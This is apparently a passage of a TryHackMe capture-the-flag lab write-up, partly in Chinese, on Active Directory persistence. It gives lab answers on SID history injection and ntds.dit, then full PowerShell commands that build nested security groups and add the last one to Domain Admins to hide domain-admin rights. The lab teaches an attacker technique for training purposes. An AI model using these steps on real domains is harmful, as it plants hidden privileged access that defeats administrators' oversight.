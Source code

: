 ```
d----l 4/25/2022 7:11 PM vagrant 
d----- 4/27/2022 8:12 PM Windows 
-a---- 1/4/2022 7:47 AM 103 delete-vagrant-user.ps1 
-a---- 5/1/2022 9:11 AM 169 dns_entries.csv 
-a---- 5/1/2022 9:17 AM 1725 thm-network-setup-dc.ps1
```


> What AD object attribute is normally used to specify SIDs from the object's previous domain to allow seamless migration to a new domain?

> SIDHistory

> What is the database file on the domain controller that stores all AD information?

> ntds.dit

> What is the PowerShell command to restart the ntds service after we injected our SID history values?

> Start-Service -Name ntds 


# Task 6  Persistence through Group Membership

原理是通过嵌套组的关系，使得低权限用户最终继承DA的权限



创建组1
```
PS C:\Tools> New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "louis.cole Net Group 1" -SamAccountName "louis.cole_nestgroup1" -DisplayName "louis.cole Nest Group 1" -GroupScope Global -GroupCategory Security
```

创建组2，并且把组2作为组成员加到组1
```
PS C:\Tools> New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "louis.cole Net Group 2" -SamAccountName "louis.cole_nestgroup2" -DisplayName "louis.cole Nest Group 2" -GroupScope Global -GroupCategory Security                                                                                                    
PS C:\Tools> Add-ADGroupMember -Identity "louis.cole_nestgroup2" -Members "louis.cole_nestgroup1"
```

创建组3，并且把组3作为组成员加到组2
```
PS C:\Tools> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "louis.cole Net Group 3" -SamAccountName "louis.cole_nestgroup3" -DisplayName "louis.cole Nest Group 3" -GroupScope Global -GroupCategory Security                                                                                               
PS C:\Tools> Add-ADGroupMember -Identity "louis.cole_nestgroup3" -Members "louis.cole_nestgroup2"
```

把组3加到DA
```
Add-ADGroupMember -Identity "Domain Admins" -Members "louis.cole_nestgroup3"
```
